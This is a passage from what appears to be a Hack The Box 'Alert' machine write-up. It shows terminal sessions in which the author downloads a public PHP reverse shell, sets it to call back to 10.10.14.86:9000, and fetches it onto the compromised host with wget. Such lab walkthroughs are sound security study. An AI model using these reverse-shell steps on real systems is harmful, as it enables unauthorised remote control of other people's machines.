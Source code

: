 We grabbed a `PHP reverse shell` from my buddy `Ivan Sincek`, modified it to our needs and dropped it right into the folder.

- [https://github.com/ivan-sincek/php-reverse-shell](https://github.com/ivan-sincek/php-reverse-shell)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/serve]
└─$ wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
--2024-11-23 22:37:35--  https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9403 (9.2K) [text/plain]
Saving to: ‘php_reverse_shell.php’

php_reverse_shell.php                                      100%[========================================================================================================================================>]   9.18K  --.-KB/s    in 0.001s  

2024-11-23 22:37:35 (6.70 MB/s) - ‘php_reverse_shell.php’ saved [9403/9403]
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/serve]
└─$ tail php_reverse_shell.php 
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.14.86', 9000);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

```c
albert@alert:/opt/website-monitor/monitors$ wget http://10.10.14.86/php_reverse_shell.php
--2024-11-23 21:41:26--  http://10.10.14.86/php_reverse_shell.php
Connecting to 10.10.14.86:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9405 (9.2K) [application/octet-stream]
Saving to: ‘php_reverse_shell.php’

php_reverse_shell.php                                      100%[========================================================================================================================================>]   9.18K  --.-KB/s    in 0s      

2024-11-23 21:41:26 (149 MB/s) - ‘php_reverse_shell.php’ saved [9405/9405]
```
